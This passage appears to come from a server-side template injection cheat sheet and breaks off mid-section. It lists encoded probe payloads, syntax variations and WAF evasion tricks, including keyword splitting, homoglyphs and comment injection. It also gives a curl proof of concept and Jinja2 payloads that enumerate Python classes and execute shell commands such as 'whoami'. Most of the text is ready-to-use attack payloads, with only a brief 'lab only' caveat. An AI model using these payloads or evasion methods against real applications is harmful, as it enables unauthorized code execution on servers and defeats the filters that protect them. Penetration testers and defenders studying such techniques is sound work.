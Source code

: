 
## 4) Encoding & obfuscation tricks

* URL encode: `%7b%7b7*7%7d%7d`
* Double encode: `%253b%253b7*7%253b%253b`
* Unicode escape / normalization: `\u007b\u007b7*7\u007d\u007d` or use lookalikes.
* Mixed encoding: encode only critical chars so some filters miss them.

**PoC (curl, URL encoded):**

```bash
curl -s -X POST "https://target/app" -H "Content-Type: application/x-www-form-urlencoded" \
  --data-urlencode "q=%7b%7b7*7%7d%7d"
```

---

## 5) Alternative syntax & comment tricks

* Vary whitespace: `{{ 7 * 7 }}` vs `{{7*7}}`
* Add inline comments: `{{7*7 # comment}}`
* Use expression concatenation: `{{ '' + '7'*1 + '' }}` (breaks some regex WAFs)
* Try slicing/filter constructs: `{{ var|slice(0,1) }}`

---

## 6) WAF / blacklist evasion techniques

* Break keywords: `e` + `x` + `e` + `c` instead of `exec`.
* Use unicode homoglyphs or mixed encodings.
* Fragment function names or inject comments inside names: `{{c/*x*/alc(1)}}` (where applicable).
* Try dot traversal variants: `{{...}}` vs `{{..}}` to bypass simple regexes.

---

## 7) Template‑specific quick techniques (engine hints & PoCs)

> Use these only in lab. Index numbers in subclass chains vary by environment; these are examples.

**Jinja2 (Python)**

* Enumerate classes:

```jinja
{{ ''.__class__.__mro__[1].__subclasses__() }}
```

* Execute shell (may require correct index):

```jinja
{{ ''.__class__.__mro__[1].__subclasses__()[40]('whoami', shell=True) }}
```

* Delay (blind):
